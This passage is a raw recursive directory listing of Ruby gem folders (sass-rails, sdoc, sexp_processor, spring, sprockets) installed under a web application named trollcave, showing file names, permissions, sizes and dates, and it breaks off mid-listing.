/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-rails-5.0.4/lib/rails:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 generators

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-rails-5.0.4/lib/rails/generators:
total 20K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 sass
-rw-r--r-- 1 rails rails  473 Sep 16  2016 sass_scaffold.rb
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 scss

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-rails-5.0.4/lib/rails/generators/sass:
total 16K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 assets
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 scaffold

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-rails-5.0.4/lib/rails/generators/sass/assets:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  345 Sep 16  2016 assets_generator.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 templates

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-rails-5.0.4/lib/rails/generators/sass/assets/templates:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  175 Sep 16  2016 stylesheet.sass

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-rails-5.0.4/lib/rails/generators/sass/scaffold:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  184 Sep 16  2016 scaffold_generator.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-rails-5.0.4/lib/rails/generators/scss:
total 16K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 assets
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 scaffold

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-rails-5.0.4/lib/rails/generators/scss/assets:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  345 Sep 16  2016 assets_generator.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 templates

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-rails-5.0.4/lib/rails/generators/scss/assets/templates:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  182 Sep 16  2016 stylesheet.scss

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-rails-5.0.4/lib/rails/generators/scss/scaffold:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  185 Sep 16  2016 scaffold_generator.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-rails-5.0.4/lib/sass:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 rails
-rw-r--r-- 1 rails rails  227 Sep 16  2016 rails.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-rails-5.0.4/lib/sass/rails:
total 40K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  686 Sep 16  2016 cache_store.rb
-rw-r--r-- 1 rails rails  297 Sep 16  2016 helpers.rb
-rw-r--r-- 1 rails rails 4.3K Sep 16  2016 importer.rb
-rw-r--r-- 1 rails rails  450 Sep 16  2016 logger.rb
-rw-r--r-- 1 rails rails 3.1K Sep 16  2016 railtie.rb
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 template.rb
-rw-r--r-- 1 rails rails   59 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sdoc-0.4.1:
total 52K
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 bin
-rw-r--r--  1 rails rails   39 Sep 16  2016 Gemfile
-rw-r--r--  1 rails rails   72 Sep 16  2016 .gitignore
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 5.0K Sep 16  2016 LICENSE
-rw-r--r--  1 rails rails  202 Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails 1.8K Sep 16  2016 README.md
-rw-r--r--  1 rails rails 1.4K Sep 16  2016 sdoc.gemspec
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 spec
-rw-r--r--  1 rails rails  155 Sep 16  2016 .travis.yml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sdoc-0.4.1/bin:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails  594 Sep 16  2016 sdoc
-rwxr-xr-x 1 rails rails  497 Sep 16  2016 sdoc-merge

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sdoc-0.4.1/lib:
total 20K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 rdoc
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 sdoc
-rw-r--r-- 1 rails rails  107 Sep 16  2016 sdoc.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sdoc-0.4.1/lib/rdoc:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  113 Sep 16  2016 discover.rb
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 generator

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sdoc-0.4.1/lib/rdoc/generator:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 template

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sdoc-0.4.1/lib/rdoc/generator/template:
total 20K
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 merge
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 rails
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 sdoc

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sdoc-0.4.1/lib/rdoc/generator/template/merge:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  539 Sep 16  2016 index.rhtml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sdoc-0.4.1/lib/rdoc/generator/template/rails:
total 40K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails 1.7K Sep 16  2016 class.rhtml
-rwxr-xr-x 1 rails rails 6.5K Sep 16  2016 _context.rhtml
-rwxr-xr-x 1 rails rails 1.4K Sep 16  2016 file.rhtml
-rw-r--r-- 1 rails rails  722 Sep 16  2016 _head.rhtml
-rwxr-xr-x 1 rails rails  571 Sep 16  2016 index.rhtml
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 resources
-rw-r--r-- 1 rails rails  177 Sep 16  2016 search_index.rhtml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sdoc-0.4.1/lib/rdoc/generator/template/rails/resources:
total 116K
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  85K Sep 16  2016 apple-touch-icon.png
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 css
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 favicon.ico
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 i
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 js
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 panel

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sdoc-0.4.1/lib/rdoc/generator/template/rails/resources/css:
total 32K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 github.css
-rwxr-xr-x 1 rails rails 4.3K Sep 16  2016 main.css
-rwxr-xr-x 1 rails rails 8.0K Sep 16  2016 panel.css
-rwxr-xr-x 1 rails rails  950 Sep 16  2016 reset.css

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sdoc-0.4.1/lib/rdoc/generator/template/rails/resources/i:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails  477 Sep 16  2016 arrows.png
-rwxr-xr-x 1 rails rails  696 Sep 16  2016 results_bg.png
-rwxr-xr-x 1 rails rails  207 Sep 16  2016 tree_bg.png

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sdoc-0.4.1/lib/rdoc/generator/template/rails/resources/js:
total 124K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails  16K Sep 16  2016 highlight.pack.js
-rwxr-xr-x 1 rails rails  56K Sep 16  2016 jquery-1.3.2.min.js
-rwxr-xr-x 1 rails rails  21K Sep 16  2016 jquery-effect.js
-rwxr-xr-x 1 rails rails  451 Sep 16  2016 main.js
-rwxr-xr-x 1 rails rails  14K Sep 16  2016 searchdoc.js

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sdoc-0.4.1/lib/rdoc/generator/template/rails/resources/panel:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails 2.6K Sep 16  2016 index.html

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sdoc-0.4.1/lib/rdoc/generator/template/sdoc:
total 40K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails 1.7K Sep 16  2016 class.rhtml
-rwxr-xr-x 1 rails rails 6.5K Sep 16  2016 _context.rhtml
-rwxr-xr-x 1 rails rails 1.1K Sep 16  2016 file.rhtml
-rw-r--r-- 1 rails rails  722 Sep 16  2016 _head.rhtml
-rwxr-xr-x 1 rails rails  571 Sep 16  2016 index.rhtml
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 resources
-rw-r--r-- 1 rails rails  177 Sep 16  2016 search_index.rhtml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sdoc-0.4.1/lib/rdoc/generator/template/sdoc/resources:
total 116K
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  85K Sep 16  2016 apple-touch-icon.png
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 css
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 favicon.ico
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 i
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 js
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 panel

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sdoc-0.4.1/lib/rdoc/generator/template/sdoc/resources/css:
total 32K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 github.css
-rwxr-xr-x 1 rails rails 4.0K Sep 16  2016 main.css
-rwxr-xr-x 1 rails rails 8.2K Sep 16  2016 panel.css
-rwxr-xr-x 1 rails rails  950 Sep 16  2016 reset.css

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sdoc-0.4.1/lib/rdoc/generator/template/sdoc/resources/i:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails  477 Sep 16  2016 arrows.png
-rwxr-xr-x 1 rails rails  696 Sep 16  2016 results_bg.png
-rwxr-xr-x 1 rails rails  207 Sep 16  2016 tree_bg.png

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sdoc-0.4.1/lib/rdoc/generator/template/sdoc/resources/js:
total 124K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails  16K Sep 16  2016 highlight.pack.js
-rwxr-xr-x 1 rails rails  56K Sep 16  2016 jquery-1.3.2.min.js
-rwxr-xr-x 1 rails rails  21K Sep 16  2016 jquery-effect.js
-rwxr-xr-x 1 rails rails  566 Sep 16  2016 main.js
-rwxr-xr-x 1 rails rails  14K Sep 16  2016 searchdoc.js

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sdoc-0.4.1/lib/rdoc/generator/template/sdoc/resources/panel:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails 2.6K Sep 16  2016 index.html

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sdoc-0.4.1/lib/sdoc:
total 44K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  12K Sep 16  2016 generator.rb
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 github.rb
-rw-r--r-- 1 rails rails  605 Sep 16  2016 helpers.rb
-rw-r--r-- 1 rails rails 6.1K Sep 16  2016 merge.rb
-rw-r--r-- 1 rails rails 2.1K Sep 16  2016 templatable.rb
-rw-r--r-- 1 rails rails   36 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sdoc-0.4.1/spec:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 rdoc_generator_spec.rb
-rw-r--r-- 1 rails rails  113 Sep 16  2016 spec_helper.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sexp_processor-4.6.0:
total 36K
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r--  1 rails rails    0 Sep 16  2016 .gemtest
-r--r--r--  1 rails rails 6.2K Sep 16  2016 History.txt
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 lib
-r--r--r--  1 rails rails  253 Sep 16  2016 Manifest.txt
-r--r--r--  1 rails rails  179 Sep 16  2016 Rakefile
-r--r--r--  1 rails rails 1.9K Sep 16  2016 README.txt
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 test

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sexp_processor-4.6.0/lib:
total 176K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-r--r--r-- 1 rails rails 1.2K Sep 16  2016 composite_sexp_processor.rb
-r--r--r-- 1 rails rails 131K Sep 16  2016 pt_testcase.rb
-r--r--r-- 1 rails rails  17K Sep 16  2016 sexp_processor.rb
-r--r--r-- 1 rails rails 6.2K Sep 16  2016 sexp.rb
-r--r--r-- 1 rails rails  196 Sep 16  2016 unique.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sexp_processor-4.6.0/test:
total 40K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-r-xr-xr-x 1 rails rails 1.4K Sep 16  2016 test_composite_sexp_processor.rb
-r-xr-xr-x 1 rails rails 1.5K Sep 16  2016 test_environment.rb
-r-xr-xr-x 1 rails rails 8.6K Sep 16  2016 test_sexp_processor.rb
-r-xr-xr-x 1 rails rails 8.2K Sep 16  2016 test_sexp.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/spring-1.4.0:
total 32K
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 bin
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 LICENSE.txt
-rw-r--r--  1 rails rails  12K Sep 16  2016 README.md

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/spring-1.4.0/bin:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails 2.0K Sep 16  2016 spring

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/spring-1.4.0/lib:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 spring

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/spring-1.4.0/lib/spring:
total 112K
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 application
-rw-r--r-- 1 rails rails 3.1K Sep 16  2016 application_manager.rb
-rw-r--r-- 1 rails rails 7.9K Sep 16  2016 application.rb
-rw-r--r-- 1 rails rails  310 Sep 16  2016 binstub.rb
-rw-r--r-- 1 rails rails  173 Sep 16  2016 boot.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 client
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 client.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 commands
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 commands.rb
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 command_wrapper.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 configuration.rb
-rw-r--r-- 1 rails rails 2.2K Sep 16  2016 env.rb
-rw-r--r-- 1 rails rails 1005 Sep 16  2016 errors.rb
-rw-r--r-- 1 rails rails  15K Sep 16  2016 json.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 process_title_updater.rb
-rw-r--r-- 1 rails rails 3.3K Sep 16  2016 server.rb
-rw-r--r-- 1 rails rails  993 Sep 16  2016 sid.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 test
-rw-r--r-- 1 rails rails  395 Sep 16  2016 test.rb
-rw-r--r-- 1 rails rails   38 Sep 16  2016 version.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 watcher
-rw-r--r-- 1 rails rails  658 Sep 16  2016 watcher.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/spring-1.4.0/lib/spring/application:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  476 Sep 16  2016 boot.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/spring-1.4.0/lib/spring/client:
total 48K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 5.6K Sep 16  2016 binstub.rb
-rw-r--r-- 1 rails rails  261 Sep 16  2016 command.rb
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 help.rb
-rw-r--r-- 1 rails rails  820 Sep 16  2016 rails.rb
-rw-r--r-- 1 rails rails 4.5K Sep 16  2016 run.rb
-rw-r--r-- 1 rails rails  701 Sep 16  2016 status.rb
-rw-r--r-- 1 rails rails  455 Sep 16  2016 stop.rb
-rw-r--r-- 1 rails rails  176 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/spring-1.4.0/lib/spring/commands:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.3K Sep 16  2016 rails.rb
-rw-r--r-- 1 rails rails  798 Sep 16  2016 rake.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/spring-1.4.0/lib/spring/test:
total 44K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  13K Sep 16  2016 acceptance_test.rb
-rw-r--r-- 1 rails rails 4.0K Sep 16  2016 application_generator.rb
-rw-r--r-- 1 rails rails 4.8K Sep 16  2016 application.rb
-rw-r--r-- 1 rails rails  748 Sep 16  2016 rails_version.rb
-rw-r--r-- 1 rails rails 3.6K Sep 16  2016 watcher_test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/spring-1.4.0/lib/spring/watcher:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 abstract.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 polling.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sprockets-3.4.0:
total 44K
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 bin
-rw-r--r--  1 rails rails 7.4K Sep 16  2016 CHANGELOG.md
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 LICENSE
-rw-r--r--  1 rails rails  16K Sep 16  2016 README.md

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sprockets-3.4.0/bin:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails 2.1K Sep 16  2016 sprockets

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sprockets-3.4.0/lib:
total 24K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 rake
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 sprockets
-rw-r--r-- 1 rails rails 6.1K Sep 16  2016 sprockets.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sprockets-3.4.0/lib/rake:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 3.7K Sep 16  2016 sprocketstask.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sprockets-3.4.0/lib/sprockets:
total 352K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 4.8K Sep 16  2016 asset.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 autoload
-rw-r--r-- 1 rails rails  392 Sep 16  2016 autoload.rb
-rw-r--r-- 1 rails rails 2.9K Sep 16  2016 base.rb
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 bower.rb
-rw-r--r-- 1 rails rails 2.2K Sep 16  2016 bundle.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 cache
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 cached_environment.rb
-rw-r--r-- 1 rails rails 6.6K Sep 16  2016 cache.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 closure_compressor.rb
-rw-r--r-- 1 rails rails  613 Sep 16  2016 coffee_script_processor.rb
-rw-r--r-- 1 rails rails  128 Sep 16  2016 coffee_script_template.rb
-rw-r--r-- 1 rails rails 2.4K Sep 16  2016 compressing.rb
-rw-r--r-- 1 rails rails 2.3K Sep 16  2016 configuration.rb
-rw-r--r-- 1 rails rails 6.9K Sep 16  2016 context.rb
-rw-r--r-- 1 rails rails 1.9K Sep 16  2016 dependencies.rb
-rw-r--r-- 1 rails rails 4.4K Sep 16  2016 digest_utils.rb
-rw-r--r-- 1 rails rails  13K Sep 16  2016 directive_processor.rb
-rw-r--r-- 1 rails rails  772 Sep 16  2016 eco_processor.rb
-rw-r--r-- 1 rails rails  100 Sep 16  2016 eco_template.rb
-rw-r--r-- 1 rails rails  696 Sep 16  2016 ejs_processor.rb
-rw-r--r-- 1 rails rails  100 Sep 16  2016 ejs_template.rb
-rw-r--r-- 1 rails rails 6.4K Sep 16  2016 encoding_utils.rb
-rw-r--r-- 1 rails rails 2.7K Sep 16  2016 engines.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 environment.rb
-rw-r--r-- 1 rails rails  715 Sep 16  2016 erb_processor.rb
-rw-r--r-- 1 rails rails  100 Sep 16  2016 erb_template.rb
-rw-r--r-- 1 rails rails  434 Sep 16  2016 errors.rb
-rw-r--r-- 1 rails rails  499 Sep 16  2016 file_reader.rb
-rw-r--r-- 1 rails rails 3.5K Sep 16  2016 http_utils.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 jst_processor.rb
-rw-r--r-- 1 rails rails  716 Sep 16  2016 legacy_proc_processor.rb
-rw-r--r-- 1 rails rails 9.2K Sep 16  2016 legacy.rb
-rw-r--r-- 1 rails rails  663 Sep 16  2016 legacy_tilt_processor.rb
-rw-r--r-- 1 rails rails  14K Sep 16  2016 loader.rb
-rw-r--r-- 1 rails rails 8.7K Sep 16  2016 manifest.rb
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 manifest_utils.rb
-rw-r--r-- 1 rails rails 3.7K Sep 16  2016 mime.rb
-rw-r--r-- 1 rails rails 2.8K Sep 16  2016 path_dependency_utils.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 path_digest_utils.rb
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 paths.rb
-rw-r--r-- 1 rails rails 7.0K Sep 16  2016 path_utils.rb
-rw-r--r-- 1 rails rails 7.6K Sep 16  2016 processing.rb
-rw-r--r-- 1 rails rails 5.3K Sep 16  2016 processor_utils.rb
-rw-r--r-- 1 rails rails 6.7K Sep 16  2016 resolve.rb
-rw-r--r-- 1 rails rails  712 Sep 16  2016 sass_cache_store.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 sass_compressor.rb
-rw-r--r-- 1 rails rails   90 Sep 16  2016 sass_functions.rb
-rw-r--r-- 1 rails rails   90 Sep 16  2016 sass_importer.rb
-rw-r--r-- 1 rails rails 7.9K Sep 16  2016 sass_processor.rb
-rw-r--r-- 1 rails rails  134 Sep 16  2016 sass_template.rb
-rw-r--r-- 1 rails rails 8.2K Sep 16  2016 server.rb
-rw-r--r-- 1 rails rails 4.4K Sep 16  2016 transformers.rb
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 uglifier_compressor.rb
-rw-r--r-- 1 rails rails 5.1K Sep 16  2016 unloaded_asset.rb
-rw-r--r-- 1 rails rails 2.8K Sep 16  2016 uri_tar.rb
-rw-r--r-- 1 rails rails 5.2K Sep 16  2016 uri_utils.rb
-rw-r--r-- 1 rails rails 5.4K Sep 16  2016 utils.rb
-rw-r--r-- 1 rails rails   41 Sep 16  2016 version.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 yui_compressor.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sprockets-3.4.0/lib/sprockets/autoload:
total 36K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   97 Sep 16  2016 closure.rb
-rw-r--r-- 1 rails rails  104 Sep 16  2016 coffee_script.rb
